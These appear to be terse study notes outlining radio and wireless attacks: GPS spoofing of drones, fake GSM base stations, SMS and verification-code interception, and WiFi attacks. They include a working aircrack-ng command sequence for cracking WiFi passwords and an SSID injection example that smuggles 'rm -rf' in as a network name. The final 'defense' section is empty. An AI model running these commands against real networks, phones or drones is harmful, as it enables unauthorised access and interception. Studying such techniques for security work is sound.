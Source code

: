 

## 电视棒

信号接收

## VGA

信号发射 low costs

## HackRF

crack by replay

## BladeRF

fabricate GPS signal

GPS欺骗实现劫持无人机：hack修正坐标

## Universal Radio Hacker

# attacks

## SCA

hijack screen

## 伪基站

hijack IOT, OpenBTS USRP

## 2G/3G GSM message hijack

## 4G hijack telephone

hijack verify code

## LTE MITM

# WiFi

## crack password

`iwconfig/ifconfig`

`airmon-ng start [wlan0 name]`: start monitor

`airmon-ng check kill`: kill some interfere things

`airodump-ng mon0`

`airodump-ng --bssid [MAC addr of AP] -c [信道] -w out mon0`

`aircrack-ng xxx.cap`

`aircrack-ng xxx.cap -w passwords.txt`

## fake ap

### arp & DNS hijack

### WPA-Radius

wireshark hijack

## ProbeRequest SSID

leak location

## 802.11

### fuzz

peach fuzzer

fuzz 任意网卡

### wifuzz

`python wifuzz.py`

`-s [ssid(MAC)] -i mon0 any/probe`

`scapy error`

`wireply.py -i wlan1mon -s [ssid] xxx.pcap`

## WiFi positioning spoof

some apps use WiFi MAC to locate accurately, which can be spoofed

## SSID injection

xss

`iwconfig wlan1mon channel 1`: change channel

`airbase-ng -e "rm -rf" -c [channel] `

## defense

